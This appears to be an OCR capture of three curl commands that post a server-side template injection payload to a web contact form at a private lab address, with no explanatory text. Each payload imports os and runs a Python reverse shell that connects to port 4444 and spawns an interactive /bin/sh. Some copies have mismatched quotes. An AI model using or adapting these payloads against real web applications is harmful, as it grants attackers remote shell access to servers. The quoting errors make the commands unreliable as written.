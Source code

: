 ```http
curl -X POST http://192.168.56.123/contact \
 -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
 -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
 -H "Accept-Language: en-US,en;q=0.5" \
 -H "Accept-Encoding: gzip, deflate, br" \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -H "Content-Length: 533" \
 -H "Origin: http://192.168.56.123" \
 -H "Connection: keep-alive" \
 --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__%28%27os%27%29.popen%28%27python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.56.123%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%27%27%29.read%28%29}}&w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage" \
--data "w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage""
```

```http
curl -X POST http://192.168.56.123/contact \
 -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
 -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
 -H "Accept-Language: en-US,en;q=0.5" \
 -H "Accept-Encoding: gzip, deflate, br" \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -H "Content-Length: 533" \
 -H "Origin: http://192.168.56.123" \
 -H "Connection: close" \
 --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.123",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'').read()}}" \
--data "w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage""
```

```http
curl -X POST http://192.168.56.123/contact \
 -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
 -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
 -H "Accept-Language: en-US,en;q=0.5" \
 -H "Accept-Encoding: gzip, deflate, br" \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -H "Content-Length: 533" \
 -H "Origin: http://192.168.56.123" \
 -H "Connection: close" \
 --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.56.123\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i"\])'').read()}}" \
--data "w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage""
```
